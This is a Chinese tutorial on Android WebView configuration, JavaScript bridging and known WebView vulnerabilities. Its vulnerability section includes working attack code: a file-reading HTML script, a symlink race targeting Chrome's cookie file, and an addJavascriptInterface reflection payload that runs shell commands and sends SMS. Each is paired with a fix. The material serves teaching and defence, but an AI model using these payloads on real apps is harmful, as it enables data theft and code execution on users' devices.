

#### 0x01 WebView 概述

WebView 是 Android 的一个控件，用于在应用程序中**展示 Web 网页**

Google 的官方解释为

> A View that displays web pages. This class is the basis upon which you can roll your own web browser or simply display some online content within your Activity. It uses the WebKit rendering engine to display web pages and includes methods to navigate forward and backward through a history, zoom in and out, perform text searches and more.

Android 的 WebView 使用 webkit 引擎，Android 4.4（API 19）之后直接使用 Chromium，因此可以支持 HTML5、CSS3 以及 JavaScript

基于 WebView 出现了**混合开发**，开发的应用也称为 `Hybrid APP`，原生开发一些迭代稳定的页面及功能，快速迭代的内容则基于 WebView 框架/容器通过 HTML5 展示，好处在于，HTML5 代码可以轻易实现**跨平台**，且**迭代方便**，但是**受网络限制**以及可能会存在一些**体验问题**（前端页面代码渲染，受限于JS的解析效率及设备硬件性能）

总结来说，WebView 的作用包括：

1. 展示和渲染网页；
2. 混合开发，与页面的 JavaScript 交互。

#### 0x02 WebView 相关工具类

##### 2.1 WebSettings

对 WebView 的相关配置进行管理，以下为常用接口

```java
// 获取 WebView 配置对象
WebSettings webSettings = webView.getSettings();
// 允许保存网页密码
webSettings.setSavePassword(true);
// 允许网页与JS交互【可能导致严重漏洞】
webSettings.setJavaScriptEnabled(true);
// 允许通过JS打开新窗口
webSettings.setJavaScriptCanOpenWindowsAutomatically(true);
// 允许插件
webSettings.setPluginsEnabled(true);
// 允许网页开启定位功能
webSettings.setGeolocationEnabled(true);
// 允许本地File域访问
webSettings.setAllowFileAccess(true);
webSettings.setAllowFileAccessFromFileURLs(true);
webSettings.setAllowUniversalAccessFromFileURLs(true);
// 调节屏幕自适应
webSettings.setUseWideViewPort(true);
webSettings.setLoadWithOverviewMode(true);
// 调节允许缩放，但不显示按钮
webSettings.setSupportZoom(true);
webSettings.setBuiltInZoomControls(true);
webSettings.setDisplayZoomControls(false);			// 缩放按钮，部分系统在缩放按钮消失前退出Activity可能引发应用崩溃，故通常设置为false，或在Activity被销毁时手动隐藏这个View
webSettings.setTextZoom(20);				// 文本缩放倍数，默认100
// 缓存设置，缓存模式有四种
// 缓存内容会保存在沙箱目录下，databases会保存请求的url记录，cache则会保存url内容
webSettings.setCacheMode(WebSettings.LOAD_NO_CACHE);
// 使用DOM或数据库或文件构建离线缓存
webSettings.setDomStorageEnabled(true);
webSettings.setDatabaseEnabled(true);
webSettings.setAppCacheEnabled(true);
```

##### 2.2 WebViewClient


处理各种通知、请求事件

```java
webView.setWebViewClient(new WebViewClient() {
  @Override
  // 拦截url请求，进行处理或重定向，返回true表示已经处理完url，返回false则将url交还给webview加载
  public boolean shouldOverrideUrlLoading(WebView view, WebResourceRequest request) {
    return super.shouldOverrideUrlLoading(view, request);
  }
  
  // 证书认证错误时的回调
  @Override
  public void onReceivedSslError(WebView view, SslErrorHandler handler, SslError error) {
    super.onReceivedSslError(view, handler, error);
  }    
});

// onPageStarted()/onPageFinished()：页面开始加载及加载完成
// shouldInterceptRequest()：页面请求资源
// onLoadResource()：页面加载资源
```

##### 2.3 WebChromeClient

处理JS的对话框、网址图标、网址标题和加载进度等

```java
webView.setWebChromeClient(new WebChromeClient() {
  @Override
  public boolean onJsAlert(WebView view, String url, String message, JsResult result) {
    // 网页弹出提示框时回调
    result.cancel();
    // 返回true表示不弹出系统的提示框，返回false则弹出
    return true;
  }
  
  @Override
  public boolean onJsConfirm(WebView view, String url, String message, JsResult result) {
    // 网页弹出确认框时回调，confirm确认，cancel取消
    result.confirm();
    return true;
  }
  
  @Override
  public boolean onJsPrompt(WebView view, String url, String message, String defaultValue, JsPromptResult result) {
    // 网页弹出输入框时回调，可以调用confirm返回内容或cancel取消
    result.confirm("got it!");
    return true;
  }    
});

// onProgressChanged()：获得网页的加载进度
// onReceivedTitle()：获取网页标题
// onCreateWindow()/onCloseWindow()：打开或关闭窗口
```

#### 0x03 WebView 基本使用

1. 需要在清单文件中声明网络访问权限

   ```xml
   <uses-permission android:name="android.permission.INTERNET"/>
   ```

2. WebView 布局

   ```xml
   <WebView
     android:id="@+id/webview"
     android:layout_width="match_parent"
     android:layout_height="match_parent" />
   ```

3. 获取 WebView 控件

   ```java
   WebView webView = (WebView) findViewById(R.id.webview);
   ```

   也可以在代码中动态创建，注意使用ApplicationContext，可以避免WebView内存泄漏

   ```java
   WebView webView = new WebView(getApplicationContext());
   webView.setLayoutParams(new LinearLayout.LayoutParams(ViewGroup.LayoutParams.MATCH_PARENT, ViewGroup.LayoutParams.MATCH_PARENT));
   rootView.addView(webView);
   ```

   有文章提到，使用ApplicationContext创建WebView可以避免WebView持有当前Activity的引用，因此也避免了内存泄漏的问题，但是同时会导致第三方应用打开网页链接异常、弹出Dialog异常、使用Flash异常；

   也可以直接使用当前Activity作为Context创建WebView，并将此Activity运行在独立进程中，参考6.2

4. 生命周期基本上同 Activity

   ```java
   @Override
   protected void onResume() {
     super.onResume();
     // 恢复webview的状态（不建议）
     webView.resumeTimers();
     // 激活WebView为活跃状态，能正常执行网页的加载与响应
     webView.onResume();
   }
   
   @Override
   protected void onPause() {
     super.onPause();
     // 失去焦点或进入后台时，暂停WebView的所有的解析和执行
     webView.onPause();
     // 暂停全局的WebView，降低CPU功耗（不建议）
     webView.pauseTimers();
   }
   ```

5. 销毁WebView时先加载null，接着清除相关数据，然后移除WebView，最后销毁并置空

   ```java
   @Override
   protected void onDestroy() {
     // webView绑定了activity，为避免内存泄漏，调用destory时需先从父容器中移除再销毁
     if (webView != null) {
       webView.loadDataWithBaseURL(null, "", "", "", null);
       webView.clearCache(true);
       webView.clearHistory();
       webView.stopLoading();
       webView.setWebChromeClient(null);
       webView.setWebViewClient(null);
       ((ViewGroup) webView.getParent()).removeView(webView);
       webView.destroy();
       webView = null;
     }
     super.onDestroy();
   }
   ```

6. 加载网页或数据通常有以下四个API

   `loadUrl(String url)`加载页面，可以为网页或本地页面，如

   ```java
   // 加载网页
   webView.loadUrl("https://www.baidu.com");
   // 加载应用资源文件内的文件
   webView.loadUrl("file:///android_asset/javascript.html");
   // 加载本地的文件
   webView.loadUrl("content://com.android.htmlfileprovider/sdcard/javascript.html");
   ```

   `loadUrl(String url, Map<String, String> additionalHttpHeaders)`与上一个接口类似，第二个参数允许携带HTTP头部

   `loadData(String data, String mimeType, String encoding)`加载一段代码，通常为网页的部分内容，参数分别为内容、类型和编码方式，如

   ```java
   webView.loadData("<html>\n" +
                   "<head>\n" +
                   "    <title>网页demo</title>\n" +
                   "</head>\n" +
                   "<body>\n" +
                   "<h2>\n" +
                   "    使用WebView加载网页代码\n" +
                   "</h2>\n" +
                   "</body>\n" +
                   "</html>", "text/html", "utf-8");
   ```

   `loadDataWithBaseURL(String baseUrl, String data, String mimeType, String encoding, String historyUrl)`与上一个接口相似，兼容性更好，适用场景更多，如

   ```java
   String img = "展示CSDN的图示，通过相对地址访问";
   webView.loadDataWithBaseURL("https://csdnimg.cn", img, "text/html", "utf-8",null);
   ```

   

   使用`loadData()`加载中文数据出现乱码的问题，一个方案是使用`loadDataWithBaseURL()`方法，另一个方案是mimeType参数传入`“text/html;charset=UTF-8”`；另外`loadData()`方法数据中的未定义字符`#`、`%`、`\`、`?`需要使用`%23`、`%25`、`%27`、`%3f`代替，但是非法字符的转换会影响运行速度

7. 其他一些常用方法

   ```java
   // 页面的前进与后退
   boolean canGoBack = webView.canGoBack();
   webView.goBack();
   boolean canGoForward = webView.canGoForward();
   webView.goForward();
   
   // 点击系统返回键时，会响应为结束当前活动，因此常重写 onKeyDown 方法实现回退
   @Override
   public boolean onKeyDown(int keyCode, KeyEvent event) {
     if (keyCode == KeyEvent.KEYCODE_BACK && webView.canGoBack()) {
       webView.goBack();
       return true;
     }
     return super.onKeyDown(keyCode, event);
   }
   
   // 页面的刷新（会重新加载所有资源）与停止
   webView.reload();
   webView.stopLoading();
   
   // 清除相关内容
   webView.clearCache(true);			// 针对全局清除缓存
   webView.clearHistory();				// 清除当前webview的访问记录
   webView.clearFormData();			// 清除自动填充的表单
   
   // 设置监听，监听文件下载
   webView.setDownloadListener(new DownloadListener() {
     @Override
     public void onDownloadStart(String url, String userAgent, String contentDisposition, String mimetype, long contentLength) {
       Uri uri = Uri.parse(url);
       Intent intent = new Intent(Intent.ACTION_VIEW, uri);
       startActivity(intent);
     } 
   });
   ```


#### 0x04 WebView 与 JS 交互

Android Native 与 JS 可以通过 JSBridge 相互调用	

##### 4.1 Native 调用 JS

- 通过 `WebView#loadUrl()`

  以调用本地JS代码为例，JS代码如下，包含一个`callJS()`的方法，打印一句调用信息的弹窗

  ```html
  <!DOCTYPE html>
  <html>
  <head>
      <meta charset="utf-8">
      <title>Javascript Demo</title>
      This is a html page of javascript demo.
      <script>
          function callJS() {
              alert("Native调用JS的callJS()方法");
          }
          function callJSwithPara(arg) {
              alert("Native调用JS的callJSwithPara(" + arg + ")方法");
              return "success";
          }
      </script>
  </head>
  </html>
  ```
  
将此`javascript.html`放在项目`app/src/main/assets`目录下，利用WebView通过file域的url访问
  
```java
  WebSettings webSettings = webView.getSettings();
  // 允许网页与JS交互以及通过JS打开新窗口
  webSettings.setJavaScriptEnabled(true);
  webSettings.setJavaScriptCanOpenWindowsAutomatically(true);
  
  // 首先载入JS代码
  webView.loadUrl("file:///android_asset/javascript.html");
  
  // 设置按钮点击事件，调用JS
  findViewById(R.id.web_button).setOnClickListener(new View.OnClickListener() {
    @Override
    public void onClick(View v) {
      webView.loadUrl("javascript:callJS()");
    }
  });
  
  // 通过WebChromeClient类处理JS的弹窗事件
  webView.setWebChromeClient(new WebChromeClient() {
    @Override
    public boolean onJsAlert(WebView view, String url, String message, final JsResult result) {
      AlertDialog.Builder builder = new AlertDialog.Builder(context);
      builder.setTitle("JS Alert")
        .setMessage(message)
        .setPositiveButton("确定", new DialogInterface.OnClickListener() {
          @Override
          public void onClick(DialogInterface dialog, int which) {
            result.confirm();
          }
        })
        .setCancelable(false)
        .create().show();
      return true;
    }
  });
  ```
  
注意JS代码调用**必须在页面结束加载后调用才有效**，因此也可以直接在`onPageFinished()`回调中调用JS方法
  
```java
  webView.setWebViewClient(new WebViewClient() {
    @Override
    public void onPageFinished(WebView view, String url) {
      super.onPageFinished(view, url);
      webView.loadUrl("javascript:callJS()");
    }
  });
  ```
  
对于有参数和返回的JS方法，同样在`loadUrl()`中传入参数，返回值会直接显示在html页面中
  
```java
  webView.loadUrl("javascript:callJSwithPara('hello from native')");
  ```
  

  
- 通过 `WebView#evaluateJavascript()`

  `loadUrl()`调用方便，基本可以满足大部分需求，但是如果要获取JS方法的返回值，则需要使用Android 4.4之后引入的一个新方法`evaluateJavascript()`，此方法使用更简洁，且因为无需刷新页面所以效率更高

  其余用法基本类似，就是修改调用过程即可

  ```java
  // 判断系统版本
  if (Build.VERSION.SDK_INT < Build.VERSION_CODES.KITKAT) {
    webView.loadUrl("javascript:callJSwithPara('hello from native')");
  } else {
    webView.evaluateJavascript("javascript:callJSwithPara('hello from native')", new ValueCallback<String>() {
      @Override
      public void onReceiveValue(String value) {
        Log.d(TAG, "evaluateJavascript value = " + value);
      }
    });
  }
  ```
  
  这里的`onReceiveValue(String value)`回调中就会传入JS的返回结果，日志为

  ```
  2021-03-18 11:45:53.636 2252-2252/com.willing.jsdemo D/WebActivity: evaluateJavascript value = "success"
  ```

##### 4.2 JS 调用 Native

- 通过 `WebView#addJavascriptInterface()` 进行对象映射

  首先定义一个与JS对象映射关联的类，并使用`@JavascriptInterface`注解被调用的方法，未注解无法调用

  ```java
  public class NativeToJS extends Object {
  
      private Context context;
      public NativeToJS(Context context) {
          this.context = context;
      }
  
      @JavascriptInterface
      public void callNative() {
          AlertDialog.Builder builder = new AlertDialog.Builder(context);
          builder.setTitle("Native Alert")
                  .setMessage("JS调用Native的callNative()方法")
                  .setPositiveButton("确定", null)
                  .setCancelable(false)
                  .create().show();
      }
  
      @JavascriptInterface
      public void callNative(String message) {
          AlertDialog.Builder builder = new AlertDialog.Builder(context);
          builder.setTitle("Native Alert")
                  .setMessage("JS调用Native的callNative(" + message + ")方法")
                  .setPositiveButton("确定", null)
                  .setCancelable(false)
                  .create().show();
      }
  }
  ```

  使用`addJavascriptInterface()`方法建立Native类和JS对象之间的关联

  ```java
  webView.addJavascriptInterface(new NativeToJS(context), "NativeToJS");
  ```

  在JS中设置按钮的点击事件，并在按钮触发的`callNative()`或`callNativeWithPara()`方法中直接使用映射的对象`native2JS`进行Native方法调用

  ```html
  <!DOCTYPE html>
  <html>
  <head>
      <meta charset="utf-8">
      <title>Javascript Demo</title>
      This is a html page of javascript demo.
      <script>
          function callNative() {
              NativeToJS.callNative();
          }
          function callNativeWithPara() {
              NativeToJS.callNative("hello from JS");
          }
      </script>
  </head>
  <body>
  <br>
  <p id="text1">[Method 1]test callNative:</p>
  <button type="button" id="button1" onclick="callNative()">callNative1</button>
  <br>
  <p id="text2">[Method 2]test callNative(with para):</p>
  <button type="button" id="button2" onclick="callNativeWithPara()">callNative2</button>
  </body>
  
  <style>
      #button1 {
          width: 300px;
          height: 60px;
      }
      #button2 {
          width: 300px;
          height: 60px;
      }
  </style>
  </html>
  ```

  

  这种调用简洁明了，只要约定好对象映射关系就可以进行对象方法调用，但是可能会导致严重的**漏洞问题**

- 通过 `WebViewClient#shouldOverrideUrlLoading()` 回调方法拦截 url

  双方约定好某个特定的协议，如`jsbridge://webview...`，然后在JS中访问这个url

  ```html
  <!DOCTYPE html>
  <html>
  <head>
      <meta charset="utf-8">
      <title>Javascript Demo</title>
      This is a html page of javascript demo.
      <script>
          function callNativeByUrl(){
              document.location = "jsbridge://webview?arg=hello form JS by url";
          }
      </script>
  </head>
  <body>
  <p id="text3">[Method 3]test callNative(by url):</p>
  <button type="button" id="button3" onclick="callNativeByUrl()">callNative3</button>
  </body>
  
  <style>
      #button3 {
          width: 300px;
          height: 60px;
      }
  </style>
  </html>
  ```

  当该JS脚本被WebView加载后，就会触发`WebViewClient#shouldOverrideUrlLoading()`回调，在这个回调中拦截url，并进行解析和后续处理

  ```java
  webView.setWebViewClient(new WebViewClient() {
    @Override
    public boolean shouldOverrideUrlLoading(WebView view, String url) {
      Uri uri = Uri.parse(url);
      if (uri.getScheme().equals("jsbridge") && uri.getAuthority().equals("webview")) {
        Set<String> keys = uri.getQueryParameterNames();
        for (String key : keys) {
          String content = uri.getQueryParameter(key);
          AlertDialog.Builder builder = new AlertDialog.Builder(context);
          builder.setTitle("Native Alert").
            .setMessage(content)
            .setPositiveButton("确定", new DialogInterface.OnClickListener() {
              @Override
              public void onClick(DialogInterface dialog, int which) {
                webView.loadUrl("javascript:returnRes(" + "'result'" + ")");
              }
            })
            .setCancelable(false)
            .create().show();
        }
        return true;
      }
      return super.shouldOverrideUrlLoading(webView, url);
    }
  });
  ```

  注意API 21之后此回调方法原型为`public boolean shouldOverrideUrlLoading(WebView view, WebResourceRequest request)`，解析的方式稍有改变

  ```java
  @Override
  public boolean shouldOverrideUrlLoading(WebView view, WebResourceRequest request) {
    Log.d(TAG, "url = " + request.getUrl().toString());
    Log.d(TAG, "method = " + request.getMethod());
    Log.d(TAG, "scheme = " + request.getScheme());
    Log.d(TAG, "authority = " + request.getAuthority());
    Log.d(TAG, "host = " + request.getHost());
    Log.d(TAG, "path = " + request.getPath());
    Log.d(TAG, "scheme = " + request.getScheme());
    ......
    return super.shouldOverrideUrlLoading(view, request);
  }
  ```

  此方法的好处在于不会导致安全漏洞，但是Native难以将执行后的结果返回给JS，一般用于无返回的操作，如打开页面，传返回值则需要额外通过其他的方法调用实现

  ```java
  // Native调用loadUrl()传回返回值
  webView.loadUrl("javascript:returnRes('result')");
  
  // JS的接收返回值方法
  function returnRes(result) {
    alert("收到Native的返回值：" + result);
  }
  ```

  

- 通过 `WebChromeClient#onJsAlert()`、`WebChromeClient#onJsConfirm()`、`WebChromeClient#onJsPrompt()` 回调方法拦截 `alert()`、`confirm()`、`prompt()` 消息

  首先介绍JS中三个常用的对话框方法：

  - `alert()`弹出警告框，无返回值
  - `confirm()`弹出确认框，返回布尔类型确认或取消
  - `prompt()`弹出输入框，可以返回任意字符串或null

  而`WebChromeClient`类分别针对这三个方法提供了回调函数，因此可以直接在回调函数中对消息进行拦截并解析

  以JS的`confirm()`方法为例，我们会使用`jsbridge://jscomfirm...`协议，把一句话通过参数的方式传给Native，并使用`alert()`方法弹出返回的结果

  ```javascript
  function confirmCallback() {
    var result = confirm("jsbridge://jsconfirm?arg=this is a confirm from JS");
    alert("confirm方法的返回结果：" + result);
  }
  function promptCallback() {
  var result = prompt("jsbridge://jsprompt?arg=this is a prompt from JS");
    alert("prompt方法的返回结果：" + result);
}
  ```
  
  在`WebChromeClient`中我们在`onJsConfirm()`回调中拦截掉确认框，解析`confirm()`方法参数只展示url中携带的参数，然后确认返回一个布尔类型真值，注意`confirm()`方法的参数是通过`message`变量传递
  
  ```java
  @Override
  public boolean onJsConfirm(WebView view, String url, String message, JsResult result) {
    Uri uri = Uri.parse(message);
    if (uri.getScheme().equals("jsbridge") && uri.getAuthority().equals("jsconfirm")) {
      Set<String> keys = uri.getQueryParameterNames();
      for (String key : keys) {
        String content = uri.getQueryParameter(key);
        AlertUtils.show(context, "Native Alert", content, new DialogInterface.OnClickListener() {
          @Override
          public void onClick(DialogInterface dialog, int which) {
            result.confirm();
          }
        });
      }
      return true;
  }
    return super.onJsConfirm(view, url, message, result);
  }
  
  @Override
  public boolean onJsPrompt(WebView view, String url, String message, String defaultValue, final JsPromptResult result) {
    Uri uri = Uri.parse(message);
    if (uri.getScheme().equals("jsbridge") && uri.getAuthority().equals("jsprompt")) {
      Set<String> keys = uri.getQueryParameterNames();
      for (String key : keys) {
        String content = uri.getQueryParameter(key);
        AlertUtils.show(context, "Native Alert", content, new DialogInterface.OnClickListener() {
          @Override
          public void onClick(DialogInterface dialog, int which) {
            result.confirm("Got it!");
          }
        });
      }
      return true;
    }
    return super.onJsPrompt(view, url, message, defaultValue, result);
  }
  ```
  
  

##### 4.3 总结


需要注意的是在 API17 版本之后，需要在被调用的地方加上 @addJavascriptInterface 约束注解，因为不加上注解的方法是没有办法被调用的

#### 0x05 WebView 漏洞

##### 5.1 密码明文存储漏洞

Android 4.3（API 18）以下，WebView 会默认开启网页密码保存功能，在用户输入密码时会弹出提示框询问用户是否保存密码，如果选择是，则会将密码保存至沙箱数据库目录下的`webview.db`文件中，设备被root情况下会导致敏感信息泄漏

需显式通过`WebSettings.setSavePassword(false)`关闭密码保存的功能，Android 4.3开始此方法被弃用

##### 5.2 File域控制不严格漏洞【一】

WebView 没有对 `file:///` 类型 url 进行限制，导致攻击者可以结合**组件导出**等漏洞利用 WebView 通过 file 协议加载外部恶意文件，进行远程恶意代码执行等操作

File域的相关配置API主要是以下三个

```java
// 是否允许 webview 使用 file 协议，默认为true
webView.getSettings().setAllowFileAccess();
// 是否允许通过 file 协议加载的 JS 读取其他的本地文件，Android 4.1之前默认true
webView.getSettings().setAllowFileAccessFromFileURLs();
// 是否允许通过 file 协议加载的 JS 访问其他源，包括http/https，Android 4.1之前默认true
// 此设置的允许会覆盖上一个设置的不允许
webView.getSettings().setAllowUniversalAccessFromFileURLs();
```

`setAllowFileAccess(true)`开启File域访问允许 WebView 直接加载本地文件，包括系统目录（下图一）

```java
webView.loadUrl("file:///system/etc/hosts")
```

如果目标应用组件导出，且 Intent 未对传入的数据进行过滤，攻击者可以使用 WebView 加载沙箱文件进行跨进程访问（下图二）

```java
Intent intent = getIntent();
if (intent != null) {
  Uri uri = intent.getData();
  if (uri != null) {
    url = uri.toString();
  }
}
webView.loadUrl(url);
```

```bash
adb shell am start -n com.willing.jsdemo/.MainActivity -d file:///data/data/com.willing.jsdemo/files/secret.txt
```

关闭File域访问则无法通过file协议加载本地文件（下图三），原生Chrome浏览器则默认禁用File域访问（下图四）


`setAllowFileAccessFromFileURLs(true)`允许通过file协议加载的JS读取其他的本地文件，构造攻击脚本

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title>Attack Demo</title>
    This is a html page of attack demo.
    <script>
    function readFile() {
        var file = "file:///data/data/com.willing.jsdemo/files/secret.txt";
        var xmlHttp = new XMLHttpRequest();
        xmlHttp.onreadystatechange = function() {
            if (xmlHttp.readyState == 4) {
                alert(xmlHttp.responseText);
            }
        }
        xmlHttp.open("GET", file, true);
        xmlHttp.send();
    }
    readFile();
    </script>
</head>
</html>
```

利用导出组件加载脚本

```bash
adb shell am start -n com.willing.jsdemo/.MainActivity -d file:///android_asset/attack.html
```

此时攻击代码可以成功读取沙箱文件的内容（下图一）；若`setAllowFileAccessFromFileURLs(false)`则会触发错误，表示file域的其他文件访问被禁止（下图二）

```txt
2021-03-18 13:24:27.429 10571-10571/com.willing.jsdemo I/chromium: [INFO:CONSOLE(17)] "Failed to load file:///data/data/com.willing.jsdemo/files/secret.txt: Cross origin requests are only supported for protocol schemes: http, data, chrome, https.", source: file:///android_asset/attack.html (17)
```


`setAllowUniversalAccessFromFileURLs(true)`许通过file协议加载的JS访问其他的源，修改攻击脚本替换访问的url

```javascript
var url = "https://www.baidu.com";
```

此时可以成功读取网页返回的内容（下图一）；若`setAllowUniversalAccessFromFileURLs(false)`则会触发错误，表示file域的其他源访问被禁止（下图二）

```
2021-03-18 13:27:11.316 11700-11700/com.willing.jsdemo I/chromium: [INFO:CONSOLE(0)] "Failed to load https://www.baidu.com/: No 'Access-Control-Allow-Origin' header is present on the requested resource. Origin 'file://' is therefore not allowed access.", source: file:///android_asset/attack.html (0)
```


##### 5.3 File域控制不严格漏洞【二】

即使将`setAllowFileAccessFromFileURLs()`和`setAllowUniversalAccessFromFileURLs()`两个接口均设置为false，事实上Android 4.1之后也默认是禁止，将`setAllowFileAccess()`设置为true，且设置`setJavaScriptEnabled()`允许JS交互，仍可以通过**符号链接跨源攻击**访问其他本地文件

原理为利用JS脚本的延时执行，将待访问的文件替换为待攻击文件的软链接，具体步骤为：首先在应用沙箱目录下构造恶意的JS脚本且修改目录权限，然后休眠1s待文件操作完成后，唤起系统Chrome浏览器打开此脚本，并休眠4s待脚本加载完成，再删除此脚本，并使用`ln -s`命令为Chrome的Cookie文件创建软链接并链接到已加载的脚本文件，因此可以通过符号链接访问Chrome的Cookie（实际测试发现Chrome直接禁用了file协议，因此漏洞无法复现）

```java
public final static String MY_PKG = "com.willing.jsdemo";
public final static String MY_TMP_DIR = "/data/data/" + MY_PKG + "/tmp/";
public final static String HTML_PATH = MY_TMP_DIR + "malicious.html";
public final static String TARGET_PKG = "com.android.chrome";
public final static String TARGET_FILE_PATH = "/data/data/" + TARGET_PKG + "/app_chrome/Default/Cookies";
public final static String HTML = 
  "<body>\n" +
  "<u>Wait a few seconds.</u>\n" +
  "<script>\n" +
  "    var doc = document;\n" +
  "    function readFile() {\n" +
  "        var xmlHttp = new XMLHttpRequest();\n" +
  "        xmlHttp.onload = function() {\n" +
  "            var res = xmlHttp.responseText;\n" +
  "            alert(res);\n" +
  "            doc.body.appendChild(doc.createTextNode(res));\n" +
  "        }\n" +
  "        xmlHttp.open(\"GET\", doc.URL, true);\n" +
  "        xmlHttp.send();\n" +
  "\n" +
  "    }\n" +
  "    setTimeout(readFile, 8000);\n" +
  "</script>\n" +
  "</body>";

public void attack() {
  try {
    // Create a malicious HTML
    exec("mkdir " + MY_TMP_DIR);
    exec("echo \"" + HTML + "\" > " + HTML_PATH);
    exec("chmod -R 777 " + MY_TMP_DIR);
    Thread.sleep(1000);

    // Force Chrome to load the malicious HTML
    invokeChrome("file://" + HTML_PATH);
    Thread.sleep(4000);

    // Replace the HTML with a symlink to Chrome's Cookie file
    exec("rm " + HTML_PATH);
    exec("ln -s " + TARGET_FILE_PATH + " " + HTML_PATH);
  } catch (Exception e) {
    e.printStackTrace();
  }
}

public void exec(String cmd) {
  try {
    String[] tmp = new String[]{"/system/bin/sh", "-c", cmd};
    Runtime.getRuntime().exec(tmp);
  } catch (Exception e) {
    e.printStackTrace();
  }
}

public void invokeChrome(String url) {
  Intent intent = new Intent(Intent.ACTION_VIEW, Uri.parse(url));
  intent.setClassName(TARGET_PKG, TARGET_PKG + ".Main");
  startActivity(intent);
}
```

修复建议是不需要使用file协议时禁用所有与之相关的功能（不影响assets/resources资源文件的加载）

```java
webView.getSettings().setAllowFileAccess(false);
webView.getSettings().setAllowFileAccessFromFileURLs(false);
webView.getSettings().setAllowUniversalAccessFromFileURLs(false);
```

若必须使用 file 协议，则禁用 file 协议的 JavaScript 功能

```java
if("file".equals(Uri.parse(url).getScheme())) {
  webView.getSettings().setJavaScriptEnabled(false);
} else {
  webView.getSettings().setJavaScriptEnabled(true);
}
webView.loadUrl(url);
```

##### 5.4 远程代码执行漏洞【一】

参考[CVE-2012-6636](https://link.jianshu.com/?t=https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-6636)和[CVE-2013-4710](https://link.jianshu.com/?t=https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-4710)

WebView通过`addJavascriptInterface()`方法进行Native类和JS对象之间的映射，此时JS可以通过这个关联的对象访问此对象的所有方法，甚至通过反射机制调用系统类，从而执行任意代码

当存在此漏洞时，攻击者可以构造恶意的JS代码并诱骗用户使用扫描二维码的方式打开外部页面执行攻击脚本，攻击代码首先遍历window对象，找到包含`getClass()`方法的对象，即与Native类建立关联的对象，获取当前类后使用`forName()`方法反射加载系统类`java.lang.Runtime`并执行本地命令

```javascript
function execute(args) {
  for(var obj in window) {
    if("getClass" in window[obj]) {
      alert(obj);
      return window[obj].getClass().forName("java.lang.Runtime").getMethod("getRuntime", null).invoke(null, null).execute(args);
      // 或者调用 SmsManager 发送短信
      var smsManager = window[obj].getClass().forName("android.telephony.SmsManager").getMethod("getDefault", null).invoke(null, null);
      smsManager.sendTextMessage("10086", null, "this is a message from JS", null, null);
    }
  }
}

function getContents(inputStream) {
  var i = 1;
  var result = "" + i;  
  var len = inputStream.read();
  while(len != -1) {
    var data = String.fromCharCode(len);
    result += data;
    result += "\n"
    len = inputStream.read();
  }
  i = i + 1; 
  return result;
}

var res = execute(["/system/bin/sh", "-c", "ls -al /sdcard"]); 
alert(res);
document.write(getContents(res.getInputStream()));
```

Google规定，Android 4.2（API 17）及之后的版本必须使用`@JavascriptInterface`注解被调用的函数来避免此漏洞

##### 5.5 远程代码执行漏洞【二】

参考[CVE-2014-1939](https://link.jianshu.com/?t=https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-1939)

Android 4.4以前的版本，使用webkit内核，其默认使用`addJavascriptInterface`接口创建`SearchBoxImpl`类对象（位于`java/android/webkit/BrowserFrame.java`），即暴露了`searchBoxJavaBridge_`对象，导致攻击者可以利用该漏洞执行远程代码攻击

需显式通过`removeJavascriptInterface();`方法进行对象移除

##### 5.6 远程代码执行漏洞【三】

参考[CVE-2014-7224](https://link.jianshu.com/?t=https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7224)

类似上一个，Android 4.4以前的版本，系统开启辅助服务时会默认为辅助服务类加入JS对象，分别为`accessibility`和`accessibilityTraversal`（位于`android/webkit/AccessibilityInjector.java`），存在远程代码执行攻击，需手动移除

##### 5.7 忽略SSL证书错误漏洞

使用`WebViewClient#onReceivedSslError()`回调时直接调用`handler.proceed()`忽略错误继续执行导致接受不了所有证书

不要重写`WebViewClient#onReceivedSslError()`方法，或对SSL证书采用`handler.cancel()`停止加载问题页面（默认方法）

#### 0x06 其他问题

##### 6.1 http/https 混合问题

Android 5.0开始WebView默认不允许加载http/https的混合内容

可以通过`WebSettings#setMixedContentMode()`设置参数`MIXED_CONTENT_COMPATIBILITY_MODE`为兼容模式

##### 6.2 WebView OOM影响主进程 

WebView默认运行在主进程中，当加载过大的资源时，可能导致OOM影响主进程

可以将WebView所在的Activity运行于独立进程中，为相应的Activity设置process属性，且结束时`System.exit(0)`直接退出当前进程，注意可能带来进程间通信问题

```xml
<activity
    android:name=".WebActivity"
    android:process=":web">
    <intent-filter>
        <action android:name=".Mainctivity"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
</activity>
```

##### 6.3 WebView 后台耗电问题

WebView加载的网页中可能包含JS动画类，如果WebView进入后台时资源不被释放，则会一直在占用CPU消耗电量

在`onStop()`和`onResume()`中设置`setJavaScriptEnabled()`为fasle和true

##### 6.4 WebView 内存泄漏问题

在xml中定义WebView则系统将直接使用当前Activity作为Context实例化创建WebView对象，此时WebView会持有Activity的引用，若WebView销毁时

避免在xml中直接定义WebView，最好能动态创建WebView，且安全销毁，参考WebView基本使用

